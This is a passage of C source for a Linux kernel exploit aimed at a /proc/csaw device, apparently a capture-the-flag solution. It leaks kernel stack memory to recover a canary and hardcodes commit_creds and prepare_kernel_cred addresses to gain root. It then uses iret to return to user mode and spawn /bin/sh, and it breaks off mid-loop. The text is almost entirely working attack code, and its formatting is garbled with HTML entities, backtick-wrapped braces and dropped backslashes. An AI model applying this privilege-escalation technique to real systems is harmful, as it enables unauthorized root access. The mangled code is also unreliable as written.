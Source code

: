 

```
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;unistd.h&gt;
#include &lt;sys/stat.h&gt;
#include &lt;fcntl.h&gt;
#include &lt;string.h&gt;
#include &lt;stdint.h&gt;
struct trap_frame`{`
    void *eip;
    uint32_t cs;
    uint32_t eflags;
    void *esp;
    uint32_t ss;
`}`__attribute__((packed));
void launch_shell(void) 
`{` 
    execl("/bin/sh", "sh", NULL);
`}`
struct trap_frame tf;
void prepare_tf(void) 
`{` 
    asm("pushl %cs; popl tf+4;"
        "pushfl; popl tf+8;"
        "pushl %esp; popl tf+12;"
        "pushl %ss; popl tf+16;");
    tf.eip = &amp;launch_shell;
    tf.esp -= 1024;
`}`
#define KERNCALL __attribute__((regparm(3)))
void* (*prepare_kernel_cred)(void*) KERNCALL = (void*) 0xc1067fc0;
void (*commit_creds)(void*) KERNCALL = (void*) 0xc1067e20;
void payload(void)`{`
    //payload here    
    commit_creds(prepare_kernel_cred(0));
    asm("mov $tf,%esp;"
       "iret;");
`}`
int main(int argc,char *argv[])`{`
    int fd = open("/proc/csaw",O_RDWR);
    if(!fd)`{`
        printf("errorn");
        exit(1);
    `}`
    lseek(fd,16,SEEK_CUR);
    char buffer[64] = `{`0`}`;
    read(fd,buffer,64);
    int i,j;
    //memset(buffer,0x41,64);
    for(i = 0;i&lt;4;i++)`{`
        for(j = 0;j&lt;16;j++)`{`
            printf("%02x ",buffer[i*16+j] &amp; 0xff);
        `}`
        printf(" | ");
        for(j = 0;j&lt;16;j++)`{`
            printf("%c",buffer[i*16+j] &amp; 0xff);
        `}`
        printf("n");
    `}`
    char canary[4] = `{`0`}`;
    memcpy(canary,buffer+32,4);
    printf("CANARY:");
    for(i = 0;i&lt;4;i++)`{`
```